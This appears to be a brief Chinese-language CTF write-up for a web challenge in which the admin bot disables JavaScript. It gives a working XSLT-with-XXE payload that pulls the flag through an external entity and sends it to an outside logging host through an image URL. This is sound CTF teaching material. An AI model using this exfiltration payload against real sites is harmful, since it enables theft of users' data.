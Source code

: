 你有一個 free xss，但是在 admin bot 裡面有一行 `await page.setJavaScriptEnabled(false);`，直接把 JS 關掉。

解法是用 XSLT 加上 XXE，像這樣：

``` js
ss = `<?xml version="1.0"?>
<!DOCTYPE a [
   <!ENTITY xxe SYSTEM  "https://impossible-xss.mc.ax/flag" >]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/asdf">
    <HTML>
      <HEAD>
        <TITLE></TITLE>
      </HEAD>
      <BODY>
        <img>
          <xsl:attribute name="src">
            https://hc.lc/log2.php?&xxe;
          </xsl:attribute>
        </img>
      </BODY>
    </HTML>
  </xsl:template>
</xsl:stylesheet>`

xml=`<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="data:text/plain;base64,${btoa(ss)}"?>
<asdf></asdf>`
payload=encodeURIComponent(xml)
```

作者的 writeup：https://blog.ankursundara.com/dicectf23-writeups/
